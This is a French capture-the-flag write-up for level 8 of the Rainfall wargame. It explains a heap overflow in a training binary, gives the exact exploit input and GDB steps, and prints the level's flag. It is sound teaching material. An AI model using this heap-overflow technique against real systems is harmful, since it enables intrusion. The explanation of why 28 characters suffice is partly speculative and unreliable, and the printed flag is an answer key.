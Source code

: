 # Rainfall - Niveau 8

## Objectif

Exploiter une vulnérabilité de type heap overflow afin de manipuler la mémoire dynamique (tas) pour détourner l'exécution et récupérer le flag.

## Analyse détaillée de la vulnérabilité

Le programme permet trois commandes :

* `auth [argument]` : alloue dynamiquement `malloc(4)`.
* `service [argument]` : utilise `strdup()` pour dupliquer une chaîne fournie par l'utilisateur, ce qui réalise une allocation dynamique en fonction de la taille de l'entrée.
* `login` : vérifie des pointeurs internes pour éventuellement exécuter `system()`.

La vulnérabilité provient du fait que les allocations dynamiques (`malloc`) réalisées pour la commande `auth` sont très petites (4 octets seulement). La commande `service`, elle, peut allouer un espace beaucoup plus grand avec `strdup()`.

Lorsqu'une commande `service` reçoit une entrée suffisamment longue (28 caractères 'A'), elle déborde légèrement dans la mémoire adjacente, écrasant ainsi un pointeur voisin en mémoire (probablement celui alloué précédemment par `auth`).

## Stratégie d'attaque

1. Réaliser une petite allocation avec `auth` (pour réserver une mémoire contiguë sur le tas).
2. Réaliser ensuite une grande allocation contrôlée avec `service`, provoquant un débordement précis pour écraser des pointeurs internes en mémoire.
3. Déclencher la commande `login` pour vérifier les conditions en mémoire modifiées par le débordement et appeler la fonction `system()`.

## Exploit détaillé

### Commandes utilisées

```bash
./level8
auth aaaa
service AAAAAAAAAAAAAAAAAAAAAAAAAAAA
login
```

### Pourquoi précisément 28 A ?

Cette taille est cruciale :

* Trop peu de 'A' ne permettrait pas d'écraser le pointeur visé.
* Trop de 'A' provoquerait une corruption excessive et ferait échouer l'exploit.

Exactement **28 caractères** permettent de parfaitement écraser le pointeur interne et le contrôler pour rediriger l'exécution vers la commande système désirée (`system`).

## Vérification avec GDB

Voici comment analyser l'exploit en détail avec GDB :

```bash
gdb ./level8
```

### 1. Définir des breakpoints utiles :

```gdb
(gdb) break malloc
(gdb) break strdup
(gdb) break free
(gdb) break system
```

### 2. Lancer le programme dans GDB :

```gdb
(gdb) run
```

Entrer ensuite :

```
auth aaaa
service AAAAAAAAAAAAAAAAAAAAAAAAAAAA
login
```

### 3. Observer les allocations mémoire :

```gdb
(gdb) x/20x 0x804a008
(gdb) x/20x 0x804a018
```

Vous pouvez observer clairement comment le débordement modifie les pointeurs internes en mémoire.

## Résultat obtenu (flag)

```
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Conclusion

Ce niveau illustre une attaque classique par heap overflow, mettant en avant les risques des allocations dynamiques et les débordements de mémoire non contrôlés. Une bonne compréhension des structures mémoires (`heap`) est essentielle pour exploiter précisément ce type de vulnérabilité.
